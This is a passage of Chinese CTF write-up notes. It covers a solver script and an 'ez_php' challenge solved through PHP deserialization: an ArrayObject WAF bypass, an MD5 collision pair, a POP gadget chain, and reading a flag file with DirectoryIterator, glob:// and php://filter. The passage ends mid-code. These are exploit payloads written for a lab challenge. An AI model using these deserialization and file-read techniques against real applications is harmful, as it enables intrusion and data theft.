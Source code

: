 		  r = base_post(url + "/register", data = payload, allow_redirects = False)
		  print(r.text)
		  r = base_post(url + "/login", data = {"username": "1", "password": "1"}, allow_redirects = False)
		  print(r.text)
		  r = base_get(url + "/flag", params = {
		      "num": "123456789 "
		  }, allow_redirects = False)
		  print(r.text)
		  ```
- # ez_php
  collapsed:: true
	- 解题思路
		- php常规题加大加厚，涉及知识点
			- [[CTF/PHP/反序列化]]
				- ((64f02a3a-fbd3-41a2-90dd-34399046a38a))
				- ((6478aaed-0cfc-41e3-a12e-55de79af3104))
			- [[CTF/MD5]]
			- [[CTF/PHP/运算优先级]]
			- [[CTF/PHP/可变函数]]
			- [[CTF/PHP/原生类]]
			- [[CTF/伪协议]]
			- ((64572c54-7814-4588-9fec-96dd86e3ab23))
		- 总体思路
			- 反序列化`useless`类读`key.php`，找到hername和key
			- 利用反序列化调用`her::find`，然后使用原生类+伪协议找到并读取flag
		- 绕过waf进行反序列化
			- 题目不允许反序列化开头是`O`或`a`的字符串
			- 把你的类塞进`ArrayObject`然后反序列化出来就是`C`开头的了
				- ```php
				  $a = new ArrayObject([114 => 514]);
				  $a -> o = $o; // 把你的类塞进这里
				  echo "payloadsta"."rt".base64_encode(serialize($a))."payloadst"."op";
				  ```
		- 读key.php
			- [[CTF/MD5]]绕过，然后利用 ((64572c54-7814-4588-9fec-96dd86e3ab23)) 绕过`if(basename($_SERVER[$a])==='key.php')`
			- 其中计算`$bool`时的and优先级小于赋值，所以and后面的那个奇怪的判断可以忽略，参考：[[CTF/PHP/运算优先级]]
		- 读flag
			- 链子：`Me::__wakeup --> her::__invoke --> important::__sleep --> useless::__get --> FLAG!`
			- `Me::__wakeup`
				- 一眼用 ((6478aaed-0cfc-41e3-a12e-55de79af3104)) 绕过
			- `useless::__get`
				- 用[[CTF/PHP/可变函数]]调用`her::find`
			- 原生类读flag
				- ctf: `DirectoryIterator`, fun: `glob://f*`: 看到flag文件
				- ctf: `SplFileObject`, fun: `php://filter/read=convert.base64-encode/resource=flag_my_baby.php`拿到flag文件的base64, 解密即可
	- 读key.php
		- pop链
			- ```php
			  $useless = new useless([]);
			  $useless -> QW = urldecode("%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%00%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%55%5d%83%60%fb%5f%07%fe%a2");
			  $useless -> YXX = urldecode("%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%02%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%d5%5d%83%60%fb%5f%07%fe%a2");
			  
